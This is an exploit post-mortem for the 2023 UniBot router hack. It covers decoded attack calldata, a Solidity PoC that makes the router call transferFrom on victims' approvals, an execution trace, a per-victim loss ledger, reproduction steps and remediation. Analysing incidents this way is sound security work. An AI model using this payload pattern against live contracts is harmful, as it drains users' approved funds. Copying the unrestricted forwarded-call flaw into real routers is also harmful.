



# UniBot Router Exploit — Arbitrary External Call Drains Unlimited Approvals

> **One-liner:** The UniBot trading-bot router exposes a function (selector `0xb2bd16ab`) that
> executes an **arbitrary, attacker-supplied call** to an attacker-supplied target. Because users had
> granted the router **unlimited UNIBOT approvals**, the attacker simply made the router call
> `UNIBOT.transferFrom(victim, attacker, balance)` on its own behalf, sweeping every approving user's
> tokens.

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.) (the umbrella DeFiHackLabs repo contains many unrelated PoCs that do not
> whole-compile, so this one was extracted standalone).
> Full verbose trace: [output.txt](output.txt).
> Verified token source (context only): [contracts_unibot_v2.sol](sources/UnibotV2_f819d9/contracts_unibot_v2.sol).
> The vulnerable router (`0x126c9…1865`) was **unverified on Etherscan**, so no router Solidity is on
> disk — its behavior is reconstructed from the on-chain execution trace.

---

## Key info

| | |
|---|---|
| **Loss (this tx)** | **1,482.32 UNIBOT** drained from 17 approving users (~$84K at the time; the campaign across multiple txs totalled ~$640K) |
| **Vulnerable contract** | UniBot **Router** — [`0x126c9FbaB3A2FCA24eDfd17322E71a5e36E91865`](https://etherscan.io/address/0x126c9FbaB3A2FCA24eDfd17322E71a5e36E91865) (unverified) |
| **Token / approvals abused** | `UnibotV2` (UNIBOT) — [`0xf819d9Cb1c2A819Fd991781A822de3ca8607c3C9`](https://etherscan.io/address/0xf819d9Cb1c2A819Fd991781A822dE3ca8607c3C9#code) |
| **Victims** | 17 EOAs holding UNIBOT, each with `allowance(victim, router) = type(uint256).max` |
| **Attacker EOA** | [`0x413e4fb75c300b92fec12d7c44e4c0b4faab4d04`](https://etherscan.io/address/0x413e4fb75c300b92fec12d7c44e4c0b4faab4d04) |
| **Attacker contract** | [`0x2b326a17b5ef826fa4e17d3836364ae1f0231a6f`](https://etherscan.io/address/0x2b326a17b5ef826fa4e17d3836364ae1f0231a6f) |
| **Attack tx (first of many)** | [`0xcbe521aea28911fe9983030748028e12541e347b8b6b974d026fa5065c22f0cf`](https://etherscan.io/tx/0xcbe521aea28911fe9983030748028e12541e347b8b6b974d026fa5065c22f0cf) |
| **Chain / fork block / date** | Ethereum mainnet / **18,467,805** / Oct 31, 2023 |
| **Compiler (token)** | Solidity v0.8.20, optimizer 200 runs |
| **Bug class** | Arbitrary external call with attacker-controlled target + calldata, combined with unlimited token approvals (approval-drain via a swap router) |

---

## TL;DR

UniBot is a Telegram trading bot. To trade on a user's behalf, users `approve(router, type(uint256).max)`
on the tokens they want the bot to manage, then the bot's on-chain router pulls/swaps those tokens
when the user issues a trade. UniBot's router exposed an internal "generic call" primitive: a function
(`0xb2bd16ab`) that takes a **`bytes` payload** and an **address list** and performs a low-level call,
forwarding that payload to a target — *as the router itself*. The router never restricted the target or
the payload to legitimate swap operations.

The attacker called this function with the payload
`transferFrom(victim, attacker, victim_balance)` aimed at the UNIBOT token. Since the router was the
approved spender (unlimited), `UNIBOT.transferFrom` succeeded with `msg.sender == router`, moving the
victim's full balance to the attacker. The PoC repeats this for **17 victims** in a single transaction.

In the trace, the attacker's UNIBOT balance goes from **0 → 1,482.32 UNIBOT**, exactly equal to the
sum of the 17 victims' stolen balances (verified to the wei below).

---

## Background — UniBot, its router, and the approval model

UniBot's value proposition is "trade from Telegram." That requires the bot to spend your tokens
without you signing each transaction in MetaMask. The standard pattern (and the one UniBot used) is:

1. The user grants the router an **unlimited ERC-20 approval** for each token the bot manages.
2. When the user wants a trade, the bot's backend submits a transaction to the router, which pulls the
   user's tokens (`transferFrom`) and routes them through a DEX.

This concentrates a fortune of standing approvals on one router address. Any code path in that router
that performs a **caller-controllable external call** is therefore catastrophic: the router *is* the
authorized spender for every user's tokens, so making the router call `transferFrom(victim, …)` is a
free transfer.

The token itself (`UnibotV2`, [contracts_unibot_v2.sol](sources/UnibotV2_f819d9/contracts_unibot_v2.sol))
is an ordinary OpenZeppelin-style fee-on-transfer ERC-20 — it is **not** where the bug lives. Its
`transferFrom` ([:359-373](sources/UnibotV2_f819d9/contracts_unibot_v2.sol#L359-L373)) behaves exactly
to spec: it checks `allowance(sender, msg.sender)` and moves tokens. The token is the *victim asset*,
faithfully honoring the malicious `transferFrom` because the router legitimately holds the approval.

---

## The vulnerable code

The router `0x126c9…1865` was **unverified**, so there is no Solidity to quote. Its behavior is, however,
unambiguous from the execution trace. The decoded calldata for the exploit function (selector
`0xb2bd16ab`) is, word-by-word (from [output.txt](output.txt), first call at the trace):

```
selector b2bd16ab
[arg0] offset 0xc0  -> address[] (length 4): [0xEeee…eEeE, UNIBOT, UNIBOT, UNIBOT]   // "path"
[arg1]              -> 0                                                              // uint (amountIn/minOut)
[arg2]              -> true                                                           // bool flag
[arg3]              -> 100000 (0x186a0)                                               // uint (forwarded gas)
[arg4] offset 0x160 -> bytes (length 0x64 = 100):                                     // ⚠️ arbitrary call payload
        23b872dd                                                                      //   = transferFrom selector
        000…a20cb17d888b7e426a3a7ca2e583706de48a04f3                                  //   victim
        000…7fa9385be102ac3eac297483dd6233d62b3e1496                                  //   recipient = attacker (PoC test contract)
        000…1a349c2f21973e48                                                          //   amount = victim's full balance
[arg5] offset 0x200 -> address[] (length 1)                                           // extra targets
```

So `0xb2bd16ab` is, in effect:

```solidity
// Reconstructed signature / behavior of the router (unverified on-chain):
function b2bd16ab(
    address[] calldata path,   // token path
    uint256 amount,
    bool    flag,
    uint256 gasToForward,      // 100000
    bytes   calldata data,     // ⚠️ ARBITRARY calldata, attacker-controlled
    address[] calldata extra
) external {
    // ... swap bookkeeping (reads its own balanceOf before/after) ...
    target.call{gas: gasToForward}(data);   // ⚠️ executes attacker payload AS THE ROUTER
    // ... no validation that `data` is a benign swap, no check on target ...
}
```

The trace shows exactly this shape per victim ([output.txt](output.txt)):

```
├─ UniBot Token::allowance(victim, UniBotRouter) [staticcall] => 1.157e77   // = type(uint256).max
├─ UniBot Token::balanceOf(victim)               [staticcall] => victim balance
├─ UniBotRouter::b2bd16ab( … data = transferFrom(victim, attacker, balance) … )
│   ├─ UniBot Token::balanceOf(UniBotRouter)      [staticcall] => 0          // router's own before-balance
│   ├─ UniBot Token::balanceOf(attacker)          [staticcall] => prior
│   ├─ UniBot Token::transferFrom(victim, attacker, balance)                 // ⚠️ executed by the router
│   │   ├─ emit Transfer(victim -> attacker, balance)
│   │   └─ emit Approval(victim, router, max - balance)
│   ├─ UniBot Token::balanceOf(UniBotRouter)      [staticcall] => 0
│   └─ UniBot Token::balanceOf(attacker)          [staticcall] => prior + balance
```

The router reads its **own** `balanceOf` before and after (a delta-accounting pattern that legitimate
swap routers use to support fee-on-transfer tokens). That accounting is irrelevant here: the attacker
routes the stolen tokens directly to *their own* address inside the forwarded `transferFrom`, so they
never have to pass through the router's balance at all. The router's "did my balance change?" logic is
trivially satisfied (no change to the router; it returns success) and the tokens land at the attacker.

The PoC's calldata builder ([test/UniBot_exp.sol:59-75](test/UniBot_exp.sol#L59-L75)) makes the abuse
explicit:

```solidity
bytes4 vulnFunctionSignature = hex"b2bd16ab";
// inner payload: pull the victim's tokens to the attacker
bytes memory transferFromData =
    abi.encodeWithSignature("transferFrom(address,address,uint256)", victim, address(this), balance);
// outer call: hand that payload to the router's generic-call function
bytes memory data = abi.encodeWithSelector(
    vulnFunctionSignature, first_param, 0, true, 100_000, transferFromData, new address[](1)
);
(bool success, ) = address(router).call(data);   // router executes transferFromData as msg.sender
```

---

## Root cause — why it was possible

This is a textbook **arbitrary-external-call** bug compounded by the bot's approval model:

1. **The router forwards attacker-controlled calldata to an attacker-influenced target with no
   allowlist.** A swap router should only ever call known DEX functions on known DEX contracts
   (`swap`, `transferFrom` of the *caller's own* tokens, etc.). UniBot's `0xb2bd16ab` instead executes
   whatever `bytes data` it is handed. Whoever calls the router can make the router *be* the actor in an
   arbitrary call.

2. **The router is `msg.sender` for the forwarded call, and the router is the approved spender for every
   user's tokens.** The two facts combine into a free `transferFrom`. The attacker doesn't need the
   victim's signature, key, or cooperation — the standing unlimited approval is the entire authorization.

3. **No identity binding between the caller and whose tokens get moved.** A safe router would have keyed
   the pulled tokens to `msg.sender` (i.e., only ever spend the *caller's* approval). UniBot's function
   let the caller name an arbitrary `from` (the victim) inside the forwarded payload, with the router's
   approval doing the work.

4. **Unlimited approvals magnify impact.** Because UniBot users approved `type(uint256).max`, each abuse
   call drains the victim's *entire* current balance (`balance = min(allowance, balance) = balance`),
   and the approval remains effectively unlimited afterward (the trace shows `max - balance` still left).

The token contract is innocent: removing or capping approvals, or fixing the router's call primitive,
each independently kills the bug. The defect is 100% in the router.

---

## Preconditions

- **Standing unlimited approval**: `UNIBOT.allowance(victim, router) == type(uint256).max`. The trace
  confirms this for all 17 victims (every `allowance` staticcall returns `1.157e77`).
- **Victim holds UNIBOT**: non-zero `balanceOf(victim)`.
- **Permissionless trigger**: `0xb2bd16ab` has no access control restricting *which* payload or target
  may be used, and no binding of the moved tokens to `msg.sender`. Anyone can call it.
- **No capital required**: the attack is pure approval abuse — no flash loan, no pool manipulation, no
  ETH outlay beyond gas. The attacker simply enumerates approvers and drains each.

---

## Step-by-step attack walkthrough (ground-truth from the trace)

The PoC ([test/UniBot_exp.sol](test/UniBot_exp.sol)) forks mainnet at block 18,467,805, lists 17 known
approvers, and loops: for each victim it reads the approval & balance, then calls the router's generic
function with a `transferFrom(victim → attacker, balance)` payload.

Per victim `i`:

1. `allowance(victim_i, router)` → `type(uint256).max` (victim has approved the bot).
2. `balanceOf(victim_i)` → `bal_i`; PoC sets `amount = min(allowance, bal_i) = bal_i`.
3. `router.b2bd16ab(path, 0, true, 100000, transferFrom(victim_i, attacker, bal_i), [0x0])`.
4. Router forwards the payload → `UNIBOT.transferFrom(victim_i, attacker, bal_i)` executes with
   `msg.sender = router`, spending the router's (unlimited) allowance.
5. `Transfer(victim_i → attacker, bal_i)` is emitted; attacker balance grows by `bal_i`.

The full per-victim ledger (amounts in UNIBOT, 18 decimals — exact wei in the trace):

| # | Victim | UNIBOT drained | Cumulative attacker balance |
|---|--------|---------------:|----------------------------:|
| 1 | `0xA20Cb17D…48a04f3` | 1.888305870016036424 | 1.8883 |
| 2 | `0x9a74A98D…9982e5` | 2.538511241556683960 | 4.4268 |
| 3 | `0x2004DE74…0C9f9` | 6.677998852755155067 | 11.1048 |
| 4 | `0x7cf45fc3…34B664` | 7.031378421828591051 | 18.1362 |
| 5 | `0x69B0E938…ACEad` | 7.448081310341981327 | 25.5843 |
| 6 | `0x111bA89b…A703D` | 9.020063756849776092 | 34.6043 |
| 7 | `0xB03b67cB…9D60A` | 10.751408343568869850 | 45.3557 |
| 8 | `0xA6C9dA49…590fB` | 13.259842034007310960 | 58.6156 |
| 9 | `0xEEE050e1…EA22F` | 19.886929249155869280 | 78.5025 |
| 10 | `0x4E19e371…AA67b4` | 42.451332394728668613 | 120.9538 |
| 11 | `0xde6E8079…2AA9d` | 49.577657165913715758 | 170.5315 |
| 12 | `0x0d2FC413…cC75aC` | 66.569981779351513697 | 237.1015 |
| 13 | `0x97508F07…0985A` | 72.173572200035800393 | 309.2750 |
| 14 | `0x8523e886…9ecB25` | 110.547448647196788797 | 419.8225 |
| 15 | `0xEba8364c…f08ac2` | 110.718335245603817112 | 530.5408 |
| 16 | `0x8a1Ee663…ED31444` | 442.316351958890099390 | 972.8572 |
| 17 | `0x92c3717A…69325A` | 509.466148683694994596 | **1,482.3233** |

**Total drained: 1,482.323347155495672367 UNIBOT** — identical to the final
`log_named_decimal_uint("Attacker UniBot balance after exploit", 1.482e21)` in the trace
([output.txt](output.txt)).

### Profit / loss accounting

| | UNIBOT |
|---|---:|
| Attacker UNIBOT balance before | 0 |
| Sum of 17 victim balances pulled | +1,482.323347 |
| Attacker UNIBOT balance after | **1,482.323347** |
| Capital spent (excl. gas) | 0 |
| **Net profit** | **+1,482.323347 UNIBOT** |

At UNIBOT's ~$56–57 price around the time, this single transaction was ≈ $84K; the attacker repeated the
pattern across many transactions and victims for a cumulative ~$640K loss (the PoC header cites ~$83,994
for the example transaction). The PoC reproduces one transaction faithfully.

---

## Diagrams

### Sequence of one drain (per victim, repeated 17×)



### How the bug composes (state / data-flow)



### The two ingredients that make it critical



---

## Why each calldata field

- **`path` (`[0xEeee…eEeE, UNIBOT, UNIBOT, UNIBOT]`):** the swap-path argument the router expects;
  `0xEeee…eEeE` is the conventional "native ETH" pseudo-address. It is cosmetic for the exploit — the
  attacker only needs the function to reach the forwarded-call code path; the swap bookkeeping produces
  no net movement of the router's own balance.
- **`amount = 0`, `flag = true`:** chosen so the router's swap math is a no-op / takes the branch that
  performs the generic forwarded call.
- **`gasToForward = 100000` (`0x186a0`):** ample gas for a single `transferFrom` (the inner call costs
  ~20–56k gas in the trace).
- **`data` (the 100-byte `transferFrom(victim, attacker, balance)`):** the actual weapon — an arbitrary
  call the router runs as itself. `recipient = attacker`, so stolen tokens go straight to the attacker
  and never need to clear the router's balance.
- **`extra = [0x0]`:** a one-element address array the function signature requires; unused by the abuse.

---

## Remediation

1. **Never forward arbitrary calldata.** A trading router must call only a fixed, hard-coded set of DEX
   functions on a hard-coded/allowlisted set of router/factory addresses. Remove any generic
   `target.call(data)` primitive, or restrict `data`'s selector + `target` to a vetted allowlist.
2. **Bind spent tokens to `msg.sender`.** The router should only ever pull tokens *from the caller*
   (`transferFrom(msg.sender, …)`), never from an arbitrary `from` chosen by the caller. If the bot
   backend submits on behalf of users, authenticate the user (signature / per-user session) and pull
   only that user's tokens.
3. **Drop unlimited approvals; use just-in-time, exact-amount approvals** (or Permit2 with scoped,
   expiring allowances). Even a perfect router shouldn't sit on `type(uint256).max` approvals for every
   user — it converts any future router bug into a total-loss event.
4. **Add per-call authorization to the router entry points.** A keeper/relayer pattern with EIP-712
   signed user intents (amount, token, deadline, nonce) prevents anyone from making the router move a
   third party's tokens.
5. **Post-incident user action:** every approver must `approve(router, 0)` immediately; the standing
   max approval remains exploitable until revoked (the trace shows ~`max − balance` still approved after
   the drain).

---

## How to reproduce

The PoC was extracted into a standalone Foundry project (the umbrella DeFiHackLabs repo has many
unrelated PoCs that fail to compile under a whole-project `forge build`):

```bash
_shared/run_poc.sh 2023-10-UniBot_exp --mt testExploit -vvvvv
```

- **RPC:** an Ethereum **archive** endpoint is required (fork block 18,467,805 is from Oct 2023; most
  public mainnet RPCs prune state that old). `foundry.toml` points `mainnet` at an Infura endpoint that
  serves the historical state.
- **Result:** `[PASS] testExploit()` — attacker UNIBOT balance goes `0 → 1,482.32 UNIBOT`.

Expected tail (from [output.txt](output.txt)):

```
    ├─ emit log_named_decimal_uint(key: "Attacker UniBot balance after exploit", val: 1482323347155495672367 [1.482e21], decimals: 18)
    └─ ← [Stop]

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 23.59s
Ran 1 test suite: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

---

*References: PeckShieldAlert — https://twitter.com/PeckShieldAlert/status/1719251390319796477 ;
DeFiHackLabs (UniBot, Ethereum, Oct 2023). The vulnerable router was unverified on-chain; analysis is
reconstructed from the verified token source and the full execution trace in
[output.txt](output.txt).*
